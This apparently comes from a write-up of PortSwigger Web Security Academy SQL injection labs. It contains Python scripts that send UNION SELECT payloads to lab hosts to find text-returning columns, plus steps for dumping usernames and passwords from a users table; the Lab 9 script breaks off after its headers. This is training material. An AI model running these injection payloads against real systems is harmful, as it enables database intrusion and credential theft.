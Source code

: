 ## Lab 8: Find column containing text

To solve, make database retrieve some custom string.

Firstly, can brute force the number of columns using the script above, and find that there are 3 columns.

Afterwards, check which column returns data, and it's column 2:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a2100b603c3041f8115f7a0003900e9'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':f'session={COOKIE}'
}

params = {
	'category':"' UNION SELECT NULL,'sSOWRB',NULL-- -"
}

url = f'https://{HOST}.web-security-academy.net/filter'
s = requests.Session()

r = s.get(url, headers=headers, proxies=proxies, verify=False, params=params)
if re.search(r"Internal Server Error", r.text):
	print("Query failed")
else:
	if re.search(r"sSOWRB", r.text):
		print('solved')
	else:
		print("error")	
```

## Lab 9: Retrieve data from other tables

To solve: Login as `administrator`. 

There are 2 columns within this database. Then, test that the first column is the one that returns data. After that, test with `@@version` and `version()`, confirm that it is PostgreSQL running.

Find table name via `table_name FROM information_schema.tables`, then `CONCAT(username,password) FROM users`.

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a580074047c324981271bc900650056'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
headers = {
	'Cookie':f'session={COOKIE}'
}

```
